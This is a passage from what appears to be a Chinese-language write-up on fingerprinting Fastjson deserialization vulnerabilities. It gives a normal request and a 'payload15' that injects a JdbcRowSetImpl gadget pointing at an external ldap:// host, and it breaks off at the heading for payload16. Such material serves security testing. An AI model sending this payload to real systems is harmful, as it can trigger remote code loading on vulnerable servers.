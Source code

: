 正常传参：

```plain
{"name":"admin","email":"admin","content":"admin"}
```

`payload15`：

```plain
{"name":"admin","email":"admin","content":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://aclarecpsj.dgrh3.cn/POC","autoCommit":true}}
```

[![](assets/1706254407-f7653949d986ffc37738de061d8b837f.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203154-b93ea502-bb7d-1.jpeg)  
[![](assets/1706254407-a7b8c225eb92d5fbb1da9327eb2e88c1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203155-b9f113fe-bb7d-1.jpeg)

### 2.2.2 判断 1.2.37<=version<=1.2.83

`payload16`：
